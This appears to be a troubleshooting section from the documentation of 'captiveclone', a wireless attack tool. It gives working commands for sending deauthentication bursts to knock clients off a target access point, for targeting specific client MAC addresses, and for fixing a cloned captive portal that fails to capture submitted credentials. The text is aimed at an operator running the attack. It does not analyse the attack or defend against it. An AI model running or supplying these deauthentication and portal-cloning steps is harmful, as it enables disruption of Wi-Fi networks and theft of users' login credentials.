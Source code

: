 ## Deauthentication Problems

### Deauthentication Not Working

**Issue**: Clients don't disconnect from target network.

**Solution**:
1. Verify your adapter supports packet injection:
   ```bash
   sudo aireplay-ng --test wlan0
   ```
2. Try increasing the number of deauth packets:
   ```bash
   sudo python captiveclone.py deauth 00:11:22:33:44:55 --interface wlan0 --burst 20
   ```
3. Verify you're on the correct channel:
   ```bash
   sudo iwconfig wlan0 channel 6  # Match target AP channel
   ```
4. Try targeting specific clients:
   ```bash
   sudo python captiveclone.py deauth 00:11:22:33:44:55 --interface wlan0 --client AA:BB:CC:DD:EE:FF
   ```

### Deauthentication Affects Wrong Clients

**Issue**: Unintended clients are disconnected.

**Solution**:
1. Use more precise targeting:
   ```bash
   sudo python captiveclone.py deauth 00:11:22:33:44:55 --interface wlan0 --client AA:BB:CC:DD:EE:FF --client 11:22:33:44:55:66
   ```
2. Add important clients to blacklist:
   ```bash
   sudo python captiveclone.py deauth 00:11:22:33:44:55 --interface wlan0 --all --blacklist AA:BB:CC:DD:EE:FF
   ```
3. Reduce deauthentication power/range if your adapter supports it.

## Credential Capture Issues

### No Credentials Being Captured

**Issue**: Forms are submitted, but no credentials are captured.

**Solution**:
1. Verify form fields are properly mapped:
   ```bash
   sudo python captiveclone.py capture --port 8080 --debug
   ```
2. Check the credential interception script in the cloned portal.
3. Ensure the submission endpoint is properly set up.
4. Try with a simpler form for testing:
   ```bash
   sudo python captiveclone.py clone http://example.com --simplified-forms
   ```
